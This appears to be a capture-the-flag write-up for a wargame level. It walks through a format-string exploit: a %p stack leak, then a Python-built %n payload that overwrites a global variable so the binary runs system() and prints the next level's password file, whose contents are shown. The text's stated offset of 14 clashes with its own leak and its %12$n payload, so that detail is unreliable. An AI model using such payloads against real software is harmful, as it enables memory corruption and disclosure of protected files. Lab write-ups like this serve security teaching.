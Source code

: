 In this level, the program contains a call to the fgets function, which is protected against buffer overflow:
```
=> 0x804847a <n+35>:	call   0x8048350 <fgets@plt>
```
We can see a call to printf with the user input as the string argument:
```
=> 0x8048450 <p+12>:	call   0x8048340 <printf@plt>
```
The program makes a comparison with an uninitialized variable:
```
0x804848d <n+54>:	mov    eax,ds:0x8049810
=> 0x8048492 <n+59>:	cmp    eax,0x1025544
```
If this check succeeds, the .pass file is printed using the system call:
```
system("/bin/cat /home/user/level5/.pass")
```
To exploit the program, we will use a Format String Attack.
We need to modify the variable located at `0x08049810`.
```
./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff764 0xb7fd0ff4 (nil) (nil) 0xbffff728 0x804848d 0xbffff520 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
The offset is 14. Now we construct the payload for exploitation:
```
python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/payload4
cat /tmp/payload4 - | ./level4
```
Running the payload should overwrite the variable and trigger the system call with the desired argument, revealing the content of the .pass file:
```
cat /home/user/level5/.pass
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
